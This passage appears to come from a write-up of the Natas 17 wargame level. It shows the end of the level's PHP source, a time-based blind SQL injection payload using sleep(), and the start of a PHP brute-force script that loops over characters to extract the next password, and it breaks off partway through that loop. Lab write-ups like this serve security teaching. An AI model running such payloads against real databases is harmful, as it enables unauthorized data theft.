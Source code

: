 ~~~~
        //echo "This user exists.<br>"; 
    } else { 
        //echo "This user doesn't exist.<br>"; 
    } 
    } else { 
        //echo "Error in query.<br>"; 
    } 

    mysql_close($link); 
} else { 
?> 

<form action="index.php" method="POST"> 
Username: <input name="username"><br> 
<input type="submit" value="Check existence" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
~~~~

Oh c'mon, now they're just playing hardball. Seriously? Commenting out all the echo statements? Well, no matter. We're smart, we can think of a way.

MySQL has a `sleep()` function... what if we injected some logic into our query, and told it to sleep for 5 seconds if it found something?

Something like: `natas18" AND IF(password LIKE BINARY "%a%", sleep(5), null) #`

Where "a" is the character we're testing, and if it's somewhere in "password", it sleeps... commenting out the rest of the SQL after our query, of course.

Let's rejig our PHP from a while ago to test this.

~~~~
<?php

function get($url)
{
    $username = "natas17";
    $password = "[censored]";
    $string = base64_encode("$username:$password");

    $options = [
        'http' => [
            'header'  => "Content-Type: application/x-www-form-urlencoded\r\n" . "authorization: Basic $string",
            'method'  => 'GET'
        ]
    ];

    $context  = stream_context_create($options);
    $raw_response = file_get_contents($url, false, $context);
    return $raw_response;
}


$c = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
$library = '';


for ($i = 0; $i < strlen($c); $i++)
{
    $character = $c[$i];
~~~~